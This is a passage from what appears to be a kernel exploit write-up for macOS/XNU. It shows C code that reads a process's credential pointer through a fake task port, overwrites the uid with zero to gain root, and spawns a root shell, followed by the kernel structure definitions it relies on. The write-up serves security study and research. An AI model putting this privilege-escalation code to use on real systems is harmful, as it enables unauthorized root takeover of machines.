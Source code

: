 ### Time to get root!

Now we can directly overwrite uid to get root privilege.

```c
	//get root
	uint64_t cred;
	r1 = read_kernel(port, faketask, self_proc + 0xe8);
	r2 = read_kernel(port, faketask, self_proc + 0xe8 + 0x4);
	memcpy((char *)&cred, &r1, sizeof(uint32_t));
	memcpy((char *)&cred + 4, &r2, sizeof(uint32_t));
```

```c
	uint64_t u = 0;
	mach_vm_write(tfp0, cred + 0x18, (vm_offset_t)&u, (mach_msg_type_number_t)8);
	if (getuid() == 0) printf("[+] g0t r00t! getuid = %d\n", getuid());
```

Get root shell now!

```c
system("/bin/bash");
```



### Some sturcture we use...

```c
typedef struct ipc_port	        *ipc_port_t;

#define IPC_PORT_NULL		((ipc_port_t) 0UL)
#define IPC_PORT_DEAD		((ipc_port_t)~0UL)
#define IPC_PORT_VALID(port) \
	((port) != IPC_PORT_NULL && (port) != IPC_PORT_DEAD)

typedef ipc_port_t 		mach_port_t;
```

```c
extern kern_return_t clock_sleep_trap(
	mach_port_name_t clock_name,
	sleep_type_t sleep_type,
	int sleep_sec,
	int sleep_nsec,
	mach_timespec_t *wakeup_time);
```

```c
struct	proc {
	LIST_ENTRY(proc) p_list;		/* List of all processes. */

	pid_t		p_pid;			/* Process identifier. (static)*/
	void * 		task;			/* corresponding task (static)*/
    // ...
}
```